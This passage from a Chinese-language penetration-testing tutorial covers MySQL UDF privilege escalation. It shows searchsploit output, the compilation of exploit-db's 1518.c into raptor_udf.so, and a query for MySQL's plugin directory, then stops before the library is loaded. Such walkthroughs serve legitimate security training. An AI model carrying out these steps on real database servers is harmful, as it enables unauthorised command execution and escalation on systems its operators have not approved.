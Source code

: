 ##### Metasploit UDF文件获取

这里我们需要注意版本，尽量使用符合MySQL的版本。如果没有的话推荐使用sqlmap的UDF文件

```bash
┌──(root㉿pinginglab)-[~]
└─# searchsploit mysql |grep UDF
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)                                            | linux/local/1181.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)                                           | linux/local/1518.c
MySQL 4/5/6 - UDF for Command Execution                                                                           | linux/local/7856.txt
```

Metasplit UDF文件要做gcc编译为so文件

```bash
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# cp /usr/share/exploitdb/exploits/linux/local/1518.c ./
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# ls
1518.c
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# gcc -g -c 1518.c
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# ls
1518.c  1518.o
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# gcc -g -shared -o  raptor_udf.so 1518.o -lc
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# ls
1518.c  1518.o  raptor_udf.so
```

#### 8.4.2 将UDF文件放到MySQL插件目录

**查看MySQL的插件目录**

```bash
mysql> show variables like "%plugin_dir%";
+---------------+--------------------------+
| Variable_name | Value                    |
+---------------+--------------------------+
| plugin_dir    | /usr/lib64/mysql/plugin/ |
+---------------+--------------------------+
1 row in set (0.00 sec)
```

**查看是否可以写入文件**
